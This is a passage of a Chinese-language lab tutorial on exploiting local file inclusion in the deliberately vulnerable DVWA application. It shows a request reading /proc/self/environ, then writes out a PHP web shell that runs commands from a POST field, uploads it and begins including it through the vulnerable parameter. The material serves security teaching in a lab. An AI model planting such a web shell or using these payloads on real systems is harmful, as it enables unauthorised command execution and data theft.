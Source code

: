 ```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/proc/self/environ
```

从这个文件中我们可以获取到用户的 session 信息，还有 user-agent，通过这些信息我们就可以做很多文章了：

![show-cookie](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384916455.png/wm)

我们查看源代码：

![show-source-code-low](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384925866.png/wm)

我们可以看到造成这样的问题是因为它没有做任何的防范与过滤，使得攻击者有机可乘，访问设备上所有的文件，透露出很多的内容。

## 7. 文件包含进阶

若是你认为本地文件包含只有这样的能耐就错了，攻击手段往往都是通过多种小技巧，利用程序员的粗心来实现。同样本地文件的包含若是只是常看文件的话，价值还是不够大，不能让它曾经盛极一时。

试想我们若是配置着文件上传的功能，我们能做什么呢？

我们可以使用可以上传一个后门程序，然后让其包含进我们的当前页面，使其运行起来。这样我们不仅能够查看还能执行一些命令。

我们在本地准备这样的一个 php 文件（注意实在本地，也就是 shiyanlou 用户的终端里，而不是在虚拟机中，我们需要上传的）：

在终端中执行 `vim test.php` 来创建与编辑文件：

![start-vim](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476136293.png/wm)

然后输入这样的内容：

```
<?php

system($_POST['cmd']);

echo '<form method="post" action="../../hackable/uploads/test.php"><input type="text" name="cmd"/><input type="submit"/></form>';

?>
```

第一句话是为了使用 cmd 来执行命令，第二句是为了提供一个输入框来输入一些命令，这样不用每次都去修改 URL，非常的麻烦（第二句中的地址如何而来，可以看下文便知）。

接着使用 `:wq` 来将其保存。

然后我们再次登陆 dvwa 中，然后进入 Upload 的上传环境：

![show-dwva-upload](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476148396.png/wm)

选择浏览，上传我们直接编辑的 test.php 文件，然后上传，上传成功之后会有这样的提示：

![show-upload-success](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476158878.png/wm)

我们可以看到上传成功的提示中告诉了我们文件所在的路径，这样的提示是不明智，但是同时也让我们文件的包含也更加的容易了。

此时我们再次来到 File Inclusion 的环境中，这次我们将 GET 中 page 的参数值修改成刚刚上传文件所在的路径：

![show-input-box](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482476167728.png/wm)
